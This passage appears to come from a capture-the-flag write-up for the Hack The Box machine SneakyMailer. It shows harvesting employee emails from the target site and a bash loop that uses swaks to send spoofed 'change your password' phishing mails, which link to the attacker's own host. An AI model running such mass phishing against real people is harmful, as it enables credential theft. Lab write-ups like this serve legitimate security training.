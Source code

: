 ## Checking HTTP (Port 80)

The web page wants to forward to the domain _sneakycorp.htb_ so that has to be added to _/etc/hosts_ file to access the website.
On the web page we are automatically logged in as an employee of _SneakyCorp_ and see a dashboard for projects:

![Dashboard of Sneaky Corp](sneakymailer_web-1.png)

The menu _Team_ shows 57 employee names, their position and email addresses.

Copying the table to a text file and formatting it, so it only consists of email addresses:
```
awk -F"\t" '{print $4}' employees.txt > emails.list
```

As there is a mail server running on the box, a **Phishing attack** can be tried against the users.

## Sending Mails with SMTP (Port 25)

I will use the tool **Swaks (Swiss Army Knife for SMTP)** to send mails to all addresses with a bash script _(phish.sh)_:
```bash
for email in $(cat emails.list);
do
        swaks \
          --from support@sneakymailer.htb \
          --to $email \
          --header 'Subject: Please change your Password!' \
          --body 'http://10.10.14.6/register.php' \
          --server sneakycorp.htb
done
```
```
bash phish.sh
```
